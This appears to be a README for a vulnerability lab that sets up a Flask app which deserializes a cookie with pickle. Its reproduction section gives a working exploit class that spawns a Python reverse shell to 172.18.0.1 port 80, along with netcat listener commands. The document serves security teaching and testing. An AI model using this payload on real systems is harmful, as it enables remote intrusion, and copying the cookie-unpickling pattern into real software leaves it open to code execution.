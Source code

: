 # Python Unpickle Deserialization Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Python's pickle module is a popular serialization/deserialization tool that converts Python objects into byte streams and vice versa. However, when untrusted data is deserialized using pickle, it can lead to arbitrary code execution.

This vulnerability occurs when an application deserializes user-controlled data using the pickle module without proper validation. An attacker can craft a malicious serialized object that, when deserialized, executes arbitrary commands on the target system.

References:

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## Environment Setup

Execute the following command to start the vulnerable Flask application:

```
docker compose build
docker compose up -d
```

After the server is started, you can access `http://your-ip:8000` in your browser. The page will display `Hello {username}!`, where username is retrieved from the 'user' cookie. The application performs base64 decoding and deserialization on this cookie to extract the "username" variable. If no valid cookie is found, it defaults to "Guest".

The vulnerable code in app.py looks like this:

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## Vulnerability Reproduction

To exploit this vulnerability, we need to create a malicious pickle object that will execute arbitrary commands when deserialized. The exploit uses Python's `__reduce__` method to specify what function to call when the object is unpickled.

The provided exploit script (exp.py) creates a malicious pickle object that establishes a reverse shell connection to the attacker's machine:

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

To execute the exploit, first set up a netcat listener on your machine to receive the reverse shell:

```bash
nc -lvp 80

# on mac you just need
# Because macOS comes with the BSD version of netcat, not the GNU version.
nc -lv 80
```

Then run the exploit script to send the malicious cookie to the vulnerable application:

```bash
python3 exp.py
```

When the server deserializes the malicious pickle object, it will execute the command and establish a reverse shell connection to your machine:

![Reverse Shell Demonstration](1.png)

Test on Mac:

![Reverse Shell Demonstration on Mac](mac.png)
